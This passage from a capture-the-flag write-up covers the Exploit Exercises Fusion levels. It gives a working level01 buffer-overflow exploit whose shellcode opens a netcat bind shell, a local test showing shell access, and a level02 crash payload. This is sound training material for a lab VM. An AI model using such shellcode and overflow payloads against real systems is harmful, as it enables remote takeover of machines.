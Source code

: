 {% highlight python %}
# File: level01_solution.py
from struct import pack

NOPSLED="\x90"*12
SHELLCODE="\x31\xc0\x50\x68\x6e\x2f\x6e\x63\x68\x2f\x2f\x62\x69\x89\xe3\x50\x68\x35\x35\x35"+\
    "\x35\x68\x2d\x6c\x74\x70\x89\xe1\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x68"+\
    "\x2d\x65\x2f\x2f\x89\xe2\x50\x52\x51\x53\x89\xe7\xb0\x0b\x89\xf9\x31\xd2\xcd\x80"
OVERFLOW="A"*139
ADDR=pack('L', 0xbfb22818+len(OVERFLOW)+20)
PAYLOAD="GET "+OVERFLOW+ADDR+" HTTP/1.1" + NOPSLED+SHELLCODE

print PAYLOAD
{% endhighlight %}

### Testing our solution.

~~~
$ python level01_solution.py | nc 127.0.0.1 20001
< on another terminal >
$ nc 127.0.0.1 5555
id
uid=20000	gid=20000	groups=20000
~~~

![Success]({{ site-url }}/assets/post_images/fusion_level01_success.jpg)

* * * 

## [level02](https://exploit-exercises.com/fusion/level02/)

>This level deals with some basic obfuscation / math stuff.
>
>This level introduces non-executable memory and return into libc /
>.text / return orientated programming (ROP).

The buffer we send will be encrypted, and it will be encrypted via a
single xor operation, with a key thats generated when connecting to
the serving application.

We can abuse the fact that the encryption is a single xor, if we send
a already encrypted back to the application; the buffer will be
decrypted (since `message xor key = cipher`, and `cipher xor key =
message`.)

First things first, let's break some stuff.

### Crashing the application

{% highlight python %}
from struct import pack

LEN=0x20000+0xf

PAYLOAD='E'+pack('I', LEN)+'\xcc'*LEN+'Q'

print PAYLOAD
{% endhighlight %}
